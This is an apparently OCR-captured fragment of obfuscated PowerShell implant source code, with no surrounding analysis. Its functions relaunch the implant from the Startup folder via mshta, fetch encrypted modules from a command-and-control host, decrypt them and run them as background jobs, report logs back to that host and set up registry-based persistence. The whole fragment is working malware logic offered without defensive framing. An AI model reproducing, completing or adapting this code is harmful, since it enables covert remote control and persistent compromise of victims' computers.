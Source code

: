 ```csharp
}
function uPDaTE-Tiny
{
  param(${INTerNALuserid}, ${intERNaLusERkeY})
    try
    {
        ${tArGET} =  $T2zmW::("GetFolderPath").Invoke(("Startup")) + '\' + ${lNKnAMe}
        &("Invoke-Expression") ("cmd /c mshta" + """ + ${TARGeT} + """)
        ${LoG} = &("Generate-Log") ("implant_updated")
        ${log_UploAD} = &("Prepare-Request") ${LOG} ${INternALusERID} ${inTErnAlUseRkeY}
        &("Send-ToHost") ${lOg_UplOad}
        Exit(0)
    } catch {}
}
function geT-modUle {
  param(${mOdUleiD}, ${iNTeRnALuSErID}, ${INTErNALuSERkey})
    if(${mODUlEID}."lEnGTh" -lt 1) { return ''}
    ${DAtA} = ("get_module:") + ${ModulEId}
    ${reQUest} = &("Prepare-Request") ${dATA} ${inTeRnAlusErId} ${iNTErnalusErKEY}
    ${ResPonsE} = &("Send-ToHost") ${ReqUeST}
    if(${REsPONsE}."leNGTh" -lt 1) { return '' }
    ${mODULeBoDy} = &("Decrypt-Data") ${rESpONse} ${inTeRNALUsERkeY}
    return ${MOdUleBODy}
}
function rUN-moDule 
{
  param(${moDULeId}, ${INTeRNalUSeRiD}, ${iNTERNAluSeRKEY}, ${vOIDLog})
    ${OPERationLOG} = ''
    ${res} = ${faLsE}
    try { ${mOdULeboDY} = &("Get-Module") ${MODulEid} ${iNteRNAlusErId} ${InTERnAlUSeRKey} } 
    catch {}
    if(${MOduleBody}."leNgTh" -gt 0) 
    {
        try 
        {
            ${ScRiPTBlOck} =   $5ZsH::("Create").Invoke(${mODuLEboDY})
            ${OPERaTiONLOG} = &("Start-Job") -ScriptBlock ${sCriptBloCK} | &("Out-String")
            ${rEs} = ${tRue}
        } 
        catch { ${opERaTioNlOG} = "can't_create_job"}
    } 
    else{ ${oPeRaTioNLOG} = ("incorrect_module_id") }
    if(${oPeRaTioNLog}."lenGTH" -gt 0 -and !${VoIdloG}) {
        ${LoG} = &("Generate-Log") ${oPeRATioNLOG}
        ${lOG_uPloAD} = &("Prepare-Request") ${Log} ${InTERnALuSerid} ${IntErNALUsERkEY}
        &("Send-ToHost") ${LoG_uPLOAD}
    }
    return ${REs}
}
function adD-PErsistModUlE {
    param(${RAwmoDuleiD}, ${INTeRNALUSErId}, ${iNTerNALUseRKEy})
        ${rEs} = ''
        ${MoDulEID} = "{" + ${rawmodUlEID} + "}"
        ${cLIeNTID} = &("Get-ClientID")
        ${pATh} = ${rEgistryPaTh} + ${clIeNtId}
        ${aLreAdyAcTIVe} = &("Get-ItemProperty") -Path ${PATH} -Name ${MOdULEsKEY} -ErrorAction ("SilentlyContinue")
        if(${aLrEADYacTIVe}) 
        {
            if(${AlrEaDyacTIVe}."tM".("Contains").Invoke(${mOdUleId})) { ${reS} = ("module_with_this_id_is_active_already") } 
            else 
            {
```